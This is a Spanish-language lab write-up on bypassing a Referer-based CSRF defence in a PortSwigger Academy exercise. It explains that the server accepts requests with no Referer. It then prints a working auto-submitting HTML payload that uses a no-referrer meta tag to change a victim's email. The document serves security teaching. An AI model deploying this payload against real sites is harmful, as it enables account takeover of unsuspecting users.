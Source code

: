 En este laboratorio se aprovecha una mala implementación del control de Referer como medida de protección contra ataques CSRF. Aunque la aplicación valida el encabezado Referer para asegurarse de que provenga del mismo dominio, acepta las peticiones incluso cuando este encabezado no está presente.

Mediante una metaetiqueta con name igual a referrer y content igual a no-referrer, se evita que el navegador incluya automáticamente el encabezado en la petición. Así, se logra que el servidor acepte la solicitud sin validar el origen, permitiendo cambiar el correo de la víctima sin romper ninguna política de seguridad aparente.

Este tipo de fallos demuestran cómo las medidas de seguridad basadas únicamente en encabezados pueden ser fácilmente burladas, especialmente cuando hay un fallback inseguro como en este caso.

Solucion
aqui vemos la peticion que el referer verifica que nosotro vengamos de la url correcta
![Pasted_image_20250723231034.png](Imagenes/Pasted_image_20250723231034.png)
entonces si nosotro quitamos de alguna manera el referer podemos cambiar el correo y esto lo logramos con un payload donde con las etiquetas html y meta logramos burlarlo
(<html>
<head>
   <meta name="referrer" content="no-referrer">
</head>
<form method="POST" action="https://0a7500d50483caaf80193a2c0082006c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<script>
        document.forms[0].submit();
</script>
</html>)

![Pasted_image_20250723231626.png](Imagenes/Pasted_image_20250723231626.png)
![Pasted_image_20250723231951.png](Imagenes/Pasted_image_20250723231951.png)